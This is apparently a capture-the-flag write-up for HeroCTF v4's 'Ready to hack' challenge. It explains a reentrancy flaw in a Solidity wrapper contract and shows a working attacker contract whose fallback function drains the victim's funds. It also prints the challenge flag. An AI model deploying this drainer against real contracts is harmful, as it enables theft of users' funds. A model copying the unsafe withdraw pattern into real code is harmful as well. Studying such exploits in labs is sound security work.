 ```yaml
---
slug: /articles/ready-to-hack
title: Ready to hack
date: 30/05/2022
category: Blockchain
thumbnail: thumbnail.png
description: Solidity smart contract vulnerable to re entrancy
author: Elf
ctf: HeroCTF v4
---
```


# Ready to hack

> Now that we're introduced, let's jump into it. This contract acts like a wrapper around $MEL.&nbsp;<br>
> We can't say it holds a gigantic amount of money, but it might be a kickstarter for you !<br>
> Of course, the contract belongs to a malicious organization, which is why we're hacking it.<br>
> Don't hack legit organizations.<br>
> Empty the contract from it's money to get the flag.

We start with a Solitidy smart contract we can ask to deploy to an address on the custom Ethereum like blockchain of the CTF.

![](interface.png)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

/*
    This contract implements "WMEL" (Wrapped MEL). You get an ERC20 version of Melcoin where 1WMEL == 1MEL at all times.
    This is a beta version !
*/

// @dev : iHuggsy
contract WMEL
{
    mapping(address => uint) public balances;

    constructor () payable {}

    function deposit() external payable 
    {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public 
    {
        uint bal = balances[msg.sender];
        require(bal > 0);
        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");
        balances[msg.sender] = 0;
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) 
    {
        return address(this).balance;
    }
}
```

We can deposit some ether with the `deposit` function and later retrieve it with the `withdraw` function.

The latter is supposed to make sure we can retrieve only the amount of ether we gave to the contract earlier by checking our balance. Our goal is to steal every single ether the contract has, which is all the ether the other people have stored here.

The contract is making its transaction to us **before** setting our balance to zero, which makes it vulnerable to the [SWC-107, the re entrancy](https://swcregistry.io/docs/SWC-107).

So, why is this a problem if the transaction that give us our ether back is done before setting our balance to zero exactly ? The issue is that if a transaction is made to another smart contract, it will pause the current execution of the calling contract and the receiver contract will start executing its fallback function.<br>
The fallback function of a smart contract is the function executed when the caller either:

- wants to execute a function that does not exist in the contract
- just makes a transaction without asking to execute a particular function

Because the calling contract will pause its execution until the called contract returns, the called contract's balance in the calling contract will not be set to zero immediately.

We can then create a smart contract to exploit this behavior with two functions:

- a payable function to begin the attack, that will call `deposit` on the vulnerable contract with the ether received, then call `withdraw`, I called it `beginAttack`
- a fallback function that just checks the balance of the vulnerable contract and call `withdraw` if it's not empty

I also added a `getStolenBalance` function just to check after the attack that the amount stolen is all here as it should.

Here is my smart contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;
import "./wmel.sol";

contract Attack {
    WMEL public victim;

    constructor(address _victimAddress) {
        victim = WMEL(_victimAddress);
    }

    function beginAttack() external payable {
        victim.deposit{value: 1 ether}();
        victim.withdraw();
    }

    function getStolenBalance() public view returns (uint) {
        return address(this).balance;
    }

    fallback() external payable {
        if (victim.getBalance() >= 1 ether) {
            victim.withdraw();
        }
    }
}
```

Deploy it, call its `beginAttack` function with a value of 1 ether, and you successfully emptied the balance of the vulnerable contract!<br>
I used Ethereum foundation's [Remix IDE](https://remix.ethereum.org/) for that.

![](begin_attack_call.png)

All that's left to do is to click on the verify button on the website and we get the flag.

Flag: `Hero{@M_A_m3l_sT34l3r_Am_v3rY_AngR}`